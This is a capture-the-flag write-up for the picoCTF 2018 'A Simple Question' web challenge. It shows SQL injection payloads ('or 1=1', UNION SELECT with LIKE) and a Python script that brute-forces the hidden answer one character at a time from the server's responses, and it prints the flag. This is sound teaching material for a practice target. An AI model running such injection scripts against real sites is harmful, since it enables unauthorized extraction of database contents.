

# A Simple Question - 650 points

There is a website running at [link](http://2018shell1.picoctf.com:36052). Try to see if you can answer its question.

### Solution
###### Writeup by asinggih

Amongst the web exploit challenges that I manage to solve, this particular problem is the most frustrating one. 
We were only given a form with 1 input box to type to answer the question. And the question was _"What is the answer ?"_. Wtf.

<p align="center">
	
</p>

Proceeding without typing anything took me to the next page

<p align="center">
	
</p>

The web page displayed the SQL query that was executed at the backend with whatever input i placed earlier. 
Hence, I tried again using the `' or '1'='1` trick.

<p align="center">
	
</p>

And then what? So close. I consulted the Piazza forum before proceeding further. One of the hints from the forum mentioned that if the actual answer is included in the output of the query, it will display __'You are so close.'__. 
Having that info, I knew that we can brute force it to get the answer. From my database class, I remembered that SQL has `LIKE` operation, where it will return fields containing the specified pattern. It was the perfect time to utilise it.
However, I didn't know how to implement it in this context, since I couldn't write another `SELECT` statement. 

After a lot of googling and reading about SQLi related materials, apparently the `UNION` function could be utilised to perform the SQLi. Basically, `UNION` function allows us to write another `SELECT` statement, and appends the result as the extra rows towards the result of the 1st `SELECT` statement. However, the result of the query after the `UNION` statement needs to have the same number of columns as the first part of the query.

Therefore, since the challenge displayed a full query of what's executed at the backend 

`SELECT * FROM answers WHERE answer=......` 

I could just utilise the same query for the `UNION` part. The actually input that I typed inside the input box for the answer is

`' UNION SELECT * FROM answers WHERE answer LIKE '%a%`

which make the executed query looked like this, at the backend:

`SELECT * FROM answers WHERE answer ='' UNION SELECT * FROM answers WHERE answer LIKE '%a%'`

and then voila! It worked! 

<p align="center">
	
</p>

What my query did was to actually check if the answer contains the charcter `a`. Hence I did another test by running another query for the letter `b`.

<p align="center">
	
</p> 

From these two trials, it can be seen that the answer contains the letter `a` but not `b`. For further testings, I wrote a python script to actually automate the process.

```python
#!/usr/bin/env python3


import requests

charset = "abcdefghijklmnopqrstuvwxyz1234567890"

ans = "" 
for c in charset:
	payload = "' UNION SELECT * FROM answers WHERE answer like '%{}%".format(c)
	resp = requests.post("http://2018shell1.picoctf.com:36052/answer2.php", data={"answer":payload}).text
	if "close" in resp:
		ans +=c

print("Characters used are: ")
print(ans) # now we have the characters used in the answer
print("----------------------------------------------------")
print()
```

What the script does is basically check which characters are in the answer from the given charset. The script knows if it's the correct character by checking if the word "close" is inside the response from the server. Now that we know the characters used in the answer:

```sh
❯ ./simple_question.py
Characters used are:
adhinstx14
----------------------------------------------------

```

I tried to input that as the answer, but as expected, it responsed with **Wrong**. I had to find the correct ordering of the characters used! To do this I extended the python script that I had provided above, to test the ordering of the characters.

```python
...

final_answer = ""
while True:		# Yes, we need to terminate this while loop manually. Lol.
	for c in ans:
		payload = "' UNION SELECT * FROM answers WHERE answer like '{}%".format(final_answer + c)
		resp = requests.post("http://2018shell1.picoctf.com:36052/answer2.php", data={"answer":payload}).text
		if "close" in resp:
			final_answer +=c
			print(final_answer)
			break

```

This was the output of the whole script. I had to terminate the program manually after there were no more characters appended after 10 seconds. 

```sh
❯ ./simple_question.py
Characters used are:
adhinstx14
----------------------------------------------------

4
41
41a
41an
41and
41ands
41andsi
41andsix
41andsixs
41andsixsi
41andsixsix
41andsixsixt
41andsixsixth
41andsixsixths

```

I input `41andsixsixths` into the input box, and guess what, **WRONG**.

I tried it again with all capitals. **WRONG**.

Maybe sentence case. Still **WRONG**.

Title case.

<p align="center">
	
</p> 

**Note:**
I was pretty lucky on this one, because I just realised that my whole script won't work if the answer contains special characters!

## Flag
>picoCTF{qu3stions_ar3_h4rd_d3850719}

